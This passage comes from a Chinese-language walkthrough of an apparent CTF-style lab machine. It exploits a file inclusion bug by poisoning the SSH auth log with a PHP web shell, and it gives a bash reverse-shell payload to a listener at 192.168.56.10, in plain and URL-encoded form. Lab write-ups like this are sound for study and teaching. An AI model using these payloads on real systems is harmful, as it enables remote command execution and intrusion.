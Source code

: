    成功包含，发现日志一直在更新，并且上面有`cron` ，可能存在`cron`任务
    
5. 因为可以包含`auth.log` （记录`ssh`登陆成功失败的日志），所以我们可以污染它
    
    但这里我遇到一个问题，我原本是想通过`ssh '<?php system($_GET['c']); ?>'@192.168.56.4` 来进行登录然后污染日志文件的，但是报错了：`remote username contains invalid characters`
    
    ![image.png](image%2087.png)
    
    网上查阅到信息：https://stackoverflow.com/questions/77948173/how-to-perform-ssh-log-poisoning-for-rce-with-lfi-using-php-system-call-in-usern
    
    好像是因为`ssh` 版本过于新导致的，然后我开了`Ubuntu18.0.4` 去进行登录，成功了
    
    ![image.png](image%2088.png)
    
6. 测试是否污染成功
    
    ```python
    andylogs.php?file=/var/log/auth.log&c=whoami
    ```
    
    ```python
    Nov 10 23:40:39 corrosion sshd[2517]: Connection closed by invalid user www-data
    ```
    
    爆出当前用户名`www-data` 污染成功
    
7. 进行反弹`shell` ，同时`kali`进行监听
    
    ```python
    bash -c 'bash -i >& /dev/tcp/192.168.56.10/1234 0>&1'
    ```
    
    进行URL编码
    
    ```python
    bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.56.10%2f1234+0%3e%261%27
    ```
    
    进行反弹shell
    
    ```python
    randylogs.php?file=/var/log/auth.log&c=bash+-c+'bash+-i+>%26+%2fdev%2ftcp%2f192.168.56.10%2f1234+0>%261'
    ```
    